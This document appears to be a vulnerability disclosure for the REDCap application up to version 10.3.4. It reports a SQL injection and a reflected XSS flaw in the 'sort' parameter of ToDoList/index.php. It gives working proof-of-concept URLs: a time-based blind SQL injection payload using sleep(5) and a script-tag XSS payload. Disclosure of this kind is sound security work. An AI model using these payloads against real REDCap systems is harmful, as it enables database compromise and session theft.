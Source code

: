 ## Vendor:
    Redcap app  

## Affected version:
The issue exists to version 10.3.4 and 10.0.20 (LTS) 

## Description:   
1.	SQL injection attack allow attackers to spoof identity, tamper with existing data, cause repudiation issues such as voiding transactions or changing balances, allow the complete disclosure of all data on the system, destroy the data or make it otherwise unavailable, and become administrators of the database server

2. The XSS vulnerability exists in the ToDoList function with parameter sort, the information submitted by the user is immediately returned in the response and not escaped leading to the Reflect XSS vulnerability. Attackers can exploit vulnerabilities to steal login session information or borrow user rights to perform unauthorized acts
This vulnerability occurs when Completed & Archived Requests has more than 10 records, the application starts paging, and the vulnerability exists here.


## Proof of Concept:

1. SQLInjection : redcap_v10.3.4/ToDoList/index.php?sort=(select case when (1=2) then 1 else 1*((select*from(select(sleep(5)))a))end)
<p align="center">
<img src="https://github.com/vuongdq54/RedCap/blob/main/sql_todolist_sort_1.JPG" />
<img src="https://github.com/vuongdq54/RedCap/blob/main/sql_todolist_sort_2.JPG" />
</p>

2. XSS : redcap_v10.3.4/ToDoList/index.php?sort=abc%27/%3E%3Cscript%3Ealert(%27xss%27)%3C/script%3E
<p align="center">
<img src="https://github.com/vuongdq54/RedCap/blob/main/pre_XSS_Todolist.JPG" />
<img src="https://github.com/vuongdq54/RedCap/blob/main/XSS_Todolist.JPG" />
</p>

## reference
https://www.project-redcap.org/
